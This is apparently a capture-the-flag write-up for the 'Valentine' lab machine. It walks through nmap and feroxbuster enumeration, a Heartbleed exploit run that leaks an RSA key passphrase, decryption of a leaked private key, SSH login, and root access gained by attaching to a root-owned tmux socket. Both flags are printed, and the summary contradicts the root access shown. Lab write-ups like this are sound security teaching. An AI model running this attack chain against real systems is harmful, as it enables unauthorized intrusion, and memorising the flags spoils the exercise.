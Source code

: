 
---

## Nmap Enumeration

Initial scan to identify open ports and services:

```bash
nmap -sV -sC valentine.htb
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22
```

- Web server is running on both HTTP and HTTPS.
- SSL cert is expired and self-signed.
- SSH version is old and likely vulnerable to known exploits.
- Apache version is also outdated.

---
## Heartbleed Exploit (CVE-2014-0160)

Because OpenSSL is used for HTTPS and the version is vulnerable, we try the Heartbleed exploit:

```bash
searchsploit -m exploits/multiple/remote/32745.py
python2 32745.py valentine.htb
```

Output snippet:

```
...
0140: $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Base64 decode:

```bash
echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
```

Result:

```
heartbleedbelievethehype
```

We now have the RSA key passphrase.

---

## Feroxbuster Directory Bruteforce

Using `feroxbuster` to enumerate paths on the web server:

```bash
feroxbuster -u http://valentine.htb -w /usr/share/wordlists/seclists/PathBANGER.txt -x php,sh,txt -C 404
```

Relevant hits:

```
/index
/index.php
/dev/
/dev/notes.txt
/dev/hype_key
/decode
/decode.php
/encode
/encode.php
/omg
/omg.jpg
```

---

## Notes Discovery

Visiting `/dev/notes.txt` reveals:

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

This implies the encoder/decoder may leak sensitive data. Might not be properly secured yet.

---

## Leaked RSA Key (Hex Encoded)

Visiting `/dev/hype_key` gives a hex blob. Download and convert:

```bash
wget https://valentine.htb/dev/hype_key --no-check-certificate
cat hype_key | xxd -r -p > rsa.enc
```

Result is:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3

-----END RSA PRIVATE KEY-----
```

It’s encrypted — we need the passphrase.

---

## Encoder/Decoder Discovery

- `/encode.php` and `/decode.php` appear functional.
- Based on the notes, encoding/decoding is supposed to be client-side but currently isn’t.
- These endpoints accept POST requests and reflect encoded/decoded content.

---

## Decrypting the Private Key

```bash
openssl rsa -in hype_key -out hype_key_decrypted_unencrypted.key
```

Enter the passphrase when prompted:

```
heartbleedbelievethehype
```

Successful decryption gives a usable private key.

---

## SSH Access

Make the key secure and connect:

```bash
chmod 600 hype_key_decrypted_unencrypted.key
ssh -i hype_key_decrypted_unencrypted.key \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostkeyAlgorithms=+ssh-rsa \
  hype@valentine.htb
# password: heartbleedbelievethehype
```

We gain shell access as user `hype`.

```
hype@Valentine:~$ cat user.txt
bf7eb8c600515cbb9fef7f2fde9a0773
```

```
ls -l /.devs
srw-rw---- 1 root hype 0 Apr 17 17:12 dev_sess
```
It’s a UNIX domain socket. Let's see what’s using it:
```
ps aux | grep dev_sess
root       1057  0.0  0.1  26416  1672 ?        Ss   17:12   0:01 /usr/bin/tmux -S /.devs/dev_sess
```
It’s a `tmux` session running as root, but the socket is readable by our `hype` user.

```
tmux -S /.devs/dev_sess attach
```

```
root@Valentine:/# whoami
root
cd /root
ls
# curl.sh  root.txt
cat root.txt
# 59485c3f0d079b8911b150465e749403
```
---
## Summary

| Step | Action |
|------|--------|
| 1 | Scanned with Nmap and discovered outdated Apache & OpenSSH |
| 2 | Enumerated web dirs with Feroxbuster and found notes, key, encode/decode pages |
| 3 | Found `/dev/hype_key` containing hex-encoded encrypted private key |
| 4 | Exploited Heartbleed to leak memory from HTTPS |
| 5 | Retrieved RSA key passphrase: `heartbleedbelievethehype` |
| 6 | Decrypted private key and SSH’d into the machine as user `hype` |

Next step would be local enumeration and privilege escalation to root.


rsync -aP 192.168.1.18:/Users/<your_user>/path/to/file .